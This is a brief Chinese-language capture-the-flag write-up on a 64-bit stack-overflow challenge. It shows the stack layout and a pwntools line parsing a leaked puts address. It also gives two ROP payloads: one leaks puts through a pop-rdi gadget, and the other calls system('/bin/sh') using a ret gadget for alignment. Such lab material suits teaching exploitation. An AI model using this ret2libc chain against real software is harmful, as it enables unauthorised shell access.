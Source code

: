 



rdi和ret寄存器如下：

![image-20241101220037530](../_media/image-20241101220037530.png)



注入点：

```
-0000000000000070 buf             db 112 dup(?)
+0000000000000000  s              db 8 dup(?)
+0000000000000008  r              db 8 dup(?)
```



关键点在于64位堆栈平衡，以及地址是：填充至8字节

```
puts_addr = u64(p.recv(6).ljust(8,b'\x00'))
```

计算基址和偏移量啥的都和32位类似



唯一需要注意的是：

payload：

```
payload = offset

payload += p64(rdix_addr) + p64(puts_got)

payload += p64(puts_plt) 

payload += p64(ctfshow_addr)
```



payload_exp:

```
payload_exp = offset

payload_exp += p64(rdix_addr) + p64(binsh_addr)

payload_exp += p64(retx_addr) + p64(system_addr)
```

